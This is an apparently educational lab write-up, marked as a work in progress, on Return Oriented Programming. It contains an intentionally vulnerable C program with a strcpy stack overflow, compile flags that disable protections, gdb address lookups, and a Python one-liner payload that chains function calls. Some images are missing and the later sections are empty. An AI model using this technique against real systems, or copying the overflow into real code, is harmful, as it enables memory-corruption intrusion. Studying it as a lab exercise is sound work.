

# ROP Chaining: Return Oriented Programming

The purpose of this lab is to familiarize with a binary exploitation technique called Return Oriented Programming \(ROP\) and ROP chains. The technique is used to bypass Data Execution Protection \(DEP\) and Address Space Layout Randomization \(ASLR\) protections.


Work In Progress


## 1st ROP Chain

### Vulnerable Code

We wil exploit the following code in a program `rop1a` that is intentionally vulnerable with a classic stack-based overflow:



```c
#include <stdio.h>
#include <string.h>

void rop1() 
{
    printf("ROP 1!\n");
}

void rop2() {
    printf("ROP 2!\n");
}

void rop3() {
    printf("ROP 3!\n");
}

void vulnerable(char* string) 
{
    char buffer[100];
    strcpy(buffer, string);
}

int main(int argc, char** argv) 
{
    vulnerable(argv[1]);
    return 0;
}
```



The above program start executing at `main()`, which calls `vulnerable()` and the program eventually returns.

### Objective

We're going to exploit the classic stack-based overflow vulnerability in the function `vulnerable` in the above code to trigger the functions `rop1()`, `rop2()` and `rop3()` sequentially, that are otherwise not called during the vulnerable program's runtime. After `rop3()` completes, we will make the program call the libc function `exit()`, so that it closes gracefully rather than with a crash.


The sequence of called functions `rop1() --> rop2() --> rop3() --> exit()` form a chain, so naturally, this is where the term ROP chains comes from.


### Stack Layout

The key thing to understand with ROP chaining is the stack layout. In our case, we need the payload, that we send to the vulnerable program, to overflow the stack in such a way, that the exploited program calls our wanted functions in exactly this order:

1. `rop1()`
2. `rop2()`
3. `rop3()`
4. `exit()`

In other words, we need to ensure that the stack in the vulnerable program, when the vulnerable function is exploited, is organized like this:


If we think about the above graphic, we will realize that once the stack is overflowed, the following will happen:

1. the vulnerable function will return/jump to the `rop1()`;
2. once `rop1()` completes, it will execute the `ret` instruction, which will pop the `rop2()` function address off the stack and jump to it;
3. once `rop2()` completes, it will execute the `ret` instruction, which will pop the `rop3()` function address off the stack and jump to it;
4. once `rop3()` completes, it will execute the `ret` instruction, which will pop the `exit()` function address off the stack and jump to it;

We will later confirm this with gdb.

### Payload

Based on the above graphic, our payload should look something like this:

```text
payload = AAAAs... + BBBB + &rop1 + &rop2 + &rop3 + &exit
```

or... using the same colours as those seen in the above stack layout for easier cross-reference:


Let's find out the values we need to populate our payload with.

First of, compile our vulnerable program `rop1a`:

```text
gcc -m32 -fno-stack-protector -z execstack rop1a.c -o rop1a
```

Start debugging it with gdb and put a breakpoint on `main()` and continue execution:

```text
gdb rop1a
b main
c
```

Now, let's find out addresses for functions `rop1`, `rop2`, `rop3` and `exit`:

```csharp
gdb-peda$ p rop1
$1 = {<text variable, no debug info>} 0x565561a9 <rop1>

gdb-peda$ p rop2
$2 = {<text variable, no debug info>} 0x565561d4 <rop2>

gdb-peda$ p rop3
$3 = {<text variable, no debug info>} 0x565561ff <rop3>

gdb-peda$ p exit
$4 = {<text variable, no debug info>} 0xf7e02950 <exit>
```


Our payload now looks like this:


The last thing we need to know is how many AAAAs we need to send in before we can take over the EIP and overwrite the return address and point it to the `rop1`.

Below screenshot indicates that the offset of interest is 112 \(0x70\), or in other words, we need to send 112 A characters to smash the stack:


See below notes on how to find the offset at which we can overwrite the return address:



Knowing the offset, we can now now visualize the full payload like this:


We can now construct the full payload in python and send it to the vulnerable program like this:

```python
./rop1a "$(python -c 'print "A"*108 + "BBBB" + "\xa9\x61\x55\x56" + "\xd4\x61\x55\x56" + "\xff\x61\x55\x56" +  "\x50\x29\xe0\xf7"')"
```

If we execute it, we can see that our `rop1`, `rop2` and `rop3` functions are called successfully as they each call their `printf()` statements:



Note how the program did not crash. As a reminder - this is because `rop3` called `exit` upon return.

### Inspecting the Stack

## 2nd ROP Chain

## References
















